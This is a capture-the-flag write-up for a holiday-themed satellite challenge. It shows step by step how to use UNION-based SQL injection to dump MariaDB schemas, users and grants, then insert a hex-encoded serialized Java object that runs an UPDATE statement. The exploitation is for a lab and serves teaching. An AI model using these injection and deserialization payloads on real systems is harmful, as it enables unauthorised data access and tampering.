

# Missile Diversion

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star:<br/>
**Direct link**: [Missile Diversion terminal](https://nanosat.one?&challenge=satmissile&username=rack3t&id=256f1214-9da8-4dd9-922f-348deb332da6&area=si-zenithsgs&location=5,4&tokens=&dna=ATATATTAATATATATATATATATATATATATCGATATGCATATATATATATGCATATATATATATATATATATATTAGCATATATATATATATGCATATATATATATGCATATATATTA)

## Objective

!!! question "Request"
    Thwart Jack's evil plan by re-aiming his missile at the Sun.


??? quote "Wombley Cube @ Zenith SGS"
    A fellow sabateur, are you? Or just a misguided hero-wannabe?<br/>
    You think you're saving the holiday season, but you're meddling in something you could never understand!<br/>
    Yes, I sided with Jack, because Santa's betrayed the elves by forcing us to move our operations to these islands!<br/>
    He put the entire holiday season at risk, and I could not allow this, I had to do something.<br/>
    Knowing my skillset, Jack secretly informed me of his plan to show Santa the error of his ways, and recruited me to aid his mission.<br/>
    Why tell you all this? Because it won't change anything. Everything is already in motion, and you're too late.<br/>
    Plus, the satellite is state-of-the-art, and -- oh drat, did I leave the admin tools open?<br/>
    For some reason, I can't move when you're nearby, but if I could, I would surely stop you!

## Hints
??? tip "Always Lock Your Computer"
    <i>From: Wombley Cube<br/>
    Terminal: Satellite Ground Station Control Panel</i><br/>
    Wombley thinks he may have left the admin tools open. I should check for those if I get stuck.


    
## Solution
To get started, establish VNC connection to the NanoSat container and create the Wireguard VPN tunnel just as in [Camera Access](../objectives/o21.md) challenge.
Once setup is complete, start the challenge.
Let's launch NanoSat MO Base Station Tool and connect to the directory.


Connect to `AppsLauncher` service and start `missile-targeting-system` app.


Now go back to the directory service and re-fetch information, the missile app's services should be showing.


Connect to the `Action service` and try out the `Debug` by submitting its action.


Now, switch over to the `Parameter service` and get `Debug`'s value (this is the output for what you just submitted).
The value is very interesting because it's showing MariaDB version string - this very specific string is typical output of MariaDB's `@@version` function call.


This looks a lot like a possible SQL injection vulnerability - let's test it out with something basic.
Just to recap the process - the input is submitted via `Debug` in the `Action service` and output value obtained from
`Debug` in `Parameter service` with `getValue`.

Be sure to `submitAction` (in `ActionService`) -> `Edit`, then paste the test query `union all select @@version;` and click `Submit`:


Sure enough, this works! Results of our query shows in addition to its normal functionality.


We can now focus on the database. Let's dump all relevant tables - 5 tables found:<br/>
`union all SELECT table_name FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema';`


Get user with something simple like generated SQL syntax error - the username is fitting `targeter`. <br/>
For example:
`union all SELECT user FROM mysql.user;`



Then, you can get user's permissions:</br>
`union all select @@version; show grants for targeter;`<br/>
<i>Note: `@@version` statement is only added to confirm successful execution.</i>


What's interesting here is that user is allowed to `INSERT` to the `satellite_query` - this is definitely a worthy finding. 😉 
Ok now let's dump all column names using this query:<br/>
`union all select column_name from information_schema.columns where table_name='messaging';`


From here, change the table name and get columns for all other tables.

Now let's dump data from all tables using this convenient query in conjunction with Wireshark for getting larger output:<br/>
`union all SELECT json_arrayagg(concat_ws(0x3a,id, numerical_mode, str_mode, str_desc)) from pointing_mode_to_str;`<br/>

In this query, `id, numerical_mode, str_mode, str_desc` are column names and `pointing_mode_to_str` is the table. 
<i>Note: In Wireshark, start capturing then follow TCP stream as in [Camera Access](../objectives/o21.md) challenge</i>


Apply a lil bit of format editing to learn that we need to have `targeting_mode` be set to 1 to point missile towards the Sun instead of the Earth.


Obviously, right now the missile points towards the Earth(0):<br/>
`union all SELECT json_arrayagg(concat_ws(0x3a,id, numerical_mode)) from pointing_mode;`


We know that the only table that gives us any write access is `INSERT` in `satellite_query`. <br/>
Let's dump this table, column by column: `union all select TO_BASE64(object) from satellite_query;`<br/>
The `TO_BASE64` SQL function can be used to safely transfer binary data - copy over Base64 string, decode, and save as an unknown file type for now (be sure to properly format out new lines). 


Now find out what kind of data this is - it's Java serialization data and looks like a function call.


Now get the `results` column: `union all select TO_BASE64(results) from satellite_query;`<br/>
Again decode Base64 and we have Java file:

```java linenums="1" title="SatelliteQueryFileFolderUtility.java"
import java.io.Serializable;
import java.io.IOException;
import java.nio.charset.StandardCharsets;
import java.nio.file.*;
import java.util.stream.Collectors;
import java.util.stream.Stream;
import java.sql.*;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;
import com.google.gson.Gson;

public class SatelliteQueryFileFolderUtility implements Serializable {
    private String pathOrStatement;
    private boolean isQuery;
    private boolean isUpdate;

    public SatelliteQueryFileFolderUtility(String pathOrStatement, boolean isQuery, boolean isUpdate) {
        this.pathOrStatement = pathOrStatement;
        this.isQuery = isQuery;
        this.isUpdate = isUpdate;
    }

    public String getResults(Connection connection) {
        if (isQuery && connection != null) {
            if (!isUpdate) {
                try (PreparedStatement selectStmt = connection.prepareStatement(pathOrStatement);
                    ResultSet rs = selectStmt.executeQuery()) {
                    List<HashMap<String, String>> rows = new ArrayList<>();
                    while(rs.next()) {
                        HashMap<String, String> row = new HashMap<>();
                        for (int i = 1; i <= rs.getMetaData().getColumnCount(); i++) {
                            String key = rs.getMetaData().getColumnName(i);
                            String value = rs.getString(i);
                            row.put(key, value);
                        }
                        rows.add(row);
                    }
                    Gson gson = new Gson();
                    String json = gson.toJson(rows);
                    return json;
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            } else {
                try (PreparedStatement pstmt = connection.prepareStatement(pathOrStatement)) {
                    pstmt.executeUpdate();
                    return "SQL Update completed.";
                } catch (SQLException sqle) {
                    return "SQL Error: " + sqle.toString();
                }
            }
        } else {
            Path path = Paths.get(pathOrStatement);
            try {
                if (Files.notExists(path)) {
                    return "Path does not exist.";
                } else if (Files.isDirectory(path)) {
                    // Use try-with-resources to ensure the stream is closed after use
                    try (Stream<Path> walk = Files.walk(path, 1)) { // depth set to 1 to list only immediate contents
                        return walk.skip(1) // skip the directory itself
                                .map(p -> Files.isDirectory(p) ? "D: " + p.getFileName() : "F: " + p.getFileName())
                                .collect(Collectors.joining("\n"));
                    }
                } else {
                    // Assume it's a readable file
                    return new String(Files.readAllBytes(path), StandardCharsets.UTF_8);
                }
            } catch (IOException e) {
                return "Error reading path: " + e.toString();
            }
        }
    }

    public String getpathOrStatement() {
        return pathOrStatement;
    }
}
```

Ok so we have Java source code file and Java serialization data (likely this function's call). 
Let's analyze the code to figure out what it does. It looks like this file is capable of running a query or retrieve a file, as well as run update SQL statements - this is what we need.

Now we need to deserialize the Java object (`data.dmp` file) to properly confirm what the function call was. 
Create a simple `PrintIt.java` file to read the object data in and output function call parameters.


```java linenums="1" title="PrintIt.java"
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.io.ObjectInputStream;


public class PrintIt {

	public static void main(String[] args) throws IOException, ClassNotFoundException {

		// Read from file
		File f_read = new File("F:\\hacking\\HHC2023\\space\\data.dmp");
		FileInputStream fis = new FileInputStream(f_read);
	    ObjectInputStream ois = new ObjectInputStream(fis);

        //Read the object
	    SatelliteQueryFileFolderUtility newCounter = (SatelliteQueryFileFolderUtility) ois.readObject();
	    
        //Print the (slightly) modified get function
        System.out.println(newCounter.getpathOrStatement());
	    ois.close();
  
	}
}
```

Now slightly modify the original `getpathOrStatement` method in `SatelliteQueryFileFolderUtility.java` to return all calling parameters:<br/>


Prior to running the function, you might also need to install [Google Gson JAR](https://www.geeksforgeeks.org/how-to-install-gson-module-in-java/) to allow full functionality of `SatelliteQueryFileFolderUtility.java`.
Now run `PrintIt.java` from [Eclipse IDE](https://eclipseide.org/) and observe confirmed values for calling parameters `pathOrStatement`, `isQuery`  and `isUpdate` in that order:


This basically tells us that the `object` was calling this function to get output of `/opt/SatelliteQueryFileFolderUtility.java`.
If we can change object to an update query, we should be able to insert it into the table since we have `INSERT` privileges and the query would get executed.
Let's create `CallIt.java`

```java linenums="1" title="CallIt.java"
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.ObjectOutputStream;


public class CallIt {

	public static void main(String[] args) throws IOException, ClassNotFoundException { 
   
	    // Write
	    File f_write = new File("F:\\hacking\\HHC2023\\space\\java_out");
	    
        //Update Statement
	    SatelliteQueryFileFolderUtility mySatellite = new SatelliteQueryFileFolderUtility("update pointing_mode set numerical_mode=1 where id=1;", true, true);
	    
        //Output to file
	    FileOutputStream fos = new FileOutputStream(f_write);
	    ObjectOutputStream oos = new ObjectOutputStream(fos);
	    oos.writeObject(mySatellite);
	    oos.close();

	}
}
```

`java_out` is the serialized Java object call to `SatelliteQueryFileFolderUtility` in its binary form, updating the `pointing_mode` table to set its mode to point to the Sun (`1`).
Now convert the binary into hex so we can send the statement without issues - Notepad++ can be used:


The final `INSERT` query with payload should look like this, using native SQL function `UNHEX`:<br/>
`union all select @@version; insert into satellite_query (object) VALUES (UNHEX('ACED00057372001F536174656C6C697465517565727946696C65466F6C6465725574696C69747912D4F68D0EB392CB0200035A0007697351756572795A000869735570646174654C000F706174684F7253746174656D656E747400124C6A6176612F6C616E672F537472696E673B7870010174003575706461746520706F696E74696E675F6D6F646520736574206E756D65726963616C5F6D6F64653D312077686572652069643D313B'));`

You can now query the full `satellite_query` table to confirm `results`:<br/>
`union all SELECT json_arrayagg(concat_ws(0x3a,jid, object, results)) from satellite_query;`

As well as where missile is pointing to:<br/>
`union all SELECT json_arrayagg(concat_ws(0x3a,id, numerical_mode)) from pointing_mode;`

It's pointing on the Sun and away from Earth!!! 🫡


!!! success "Answer"
    Missile diverted to the Sun!!!<br/>
    { width="600" }

    
## Response
!!! quote "Wombley Cube @ Zenith SGS"
    A... missile... aimed for Santa's sleigh? I had no idea...<br/>
    I can't believe I was manipulated like this. I've been trained to recognize these kinds of tactics!<br/>
    Santa should never have put the holiday season at risk like he did, but I didn't know Jack's true intentions.<br/>
    I'll help you bring Jack to justice...<br/>
    But my mission to ensure Santa never again compromises the holidays is still in progress.<br/>
    It sounded like the satellite crashed. Based on the coordinates, looks like the crash site is right near Rudolph's Rest.<br/>
    Use the door to the right to return to the resort lobby and see what happened!<br/>
    Don't worry, I'll meet you there... trust me.<br/>

    
Justice time, Jack! 😵
